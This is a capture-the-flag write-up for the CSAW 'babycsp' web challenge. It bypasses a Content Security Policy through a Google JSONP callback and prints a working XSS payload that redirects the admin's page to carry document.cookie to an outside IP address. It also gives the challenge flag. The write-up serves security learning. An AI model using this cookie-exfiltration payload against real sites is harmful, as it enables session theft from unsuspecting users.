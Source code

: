 # babycsp

- Category: web
- Points: 50

## Challenge

### Description
> I heard CSP is all the rage now. It's supposed to fix all the XSS, kill all of the confused deputies, and cure cancer? The flag is in the cookies 

### Files

- Website: `http://web.chal.csaw.io:1000/`

### Website

We are given the following page: 

![babycsp website](./website.png)


## Solution

Given the name of the challenge and the website, we know this challenge is a circumvention of CSP (Content Security Policy) to run XSS to steal the admin's cookies. As I haven't heard of CSP or HttpOnly cookies/cookie stealing before this challenge, it was a lot of fun and definitely a learning experience.

> CSP prevents loading JavaScript and other resources from domains that aren't specified. This means it's tough to get XSS or load malicious scripts.

When you input `<script>alert(1)</script>` or other XSS payloads, you get the following alert in the JavaScript console.

![CSP Console Alert](./cspalert.png)

> The developers tools console is very useful, especially for challenges like this.

So, the CSP is as follows:

```
default-src 'self'; script-src 'self' *.google.com; connect-src *
```

This looks 'secure' on paper, however evaluating it with `https://csp-evaluator.withgoogle.com/` shows us the following:

![1568649748521](./1568649748521.png)

The thing that stands out the most here is the possibility of _JSONP endpoints_ that would allow us to bypass CSP.

Researching for a bit gives us `https://github.com/zigoo0/JSONBee`, which a bunch of payloads that abuse this. A bit of modification of a payload gives us `<script src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1337)"></script>`, where we can input malicious JavaScript in the callback field.

Since the cookies are HttpOnly, we can't write to a file or anything like that, we have to set up a public facing server (I used AWS Free Tier) and use the "Report to Admin" button to steal his cookie.

![1568650225806](./1568650225806.png)

>  HttpOnly cookies make XSS cookie stealing more difficult by not allowing client-side scripts to print the cookies.

This XSS payload was functional in redirecting the page and stealing the cookies of the admin:

```
<script src='https://accounts.google.com/o/oauth2/revoke?callback=
window.location="http://13.58.84.168/"["concat"](document.cookie);
'></script>
```

So, running this payload and clicking `Report to admin`, we check our `access_log` for `httpd` on our EC2 instance and find the flag:

![1568650393624](./1568650393624.png)

### Flag

`flag{csp_will_solve_EVERYTHING}`
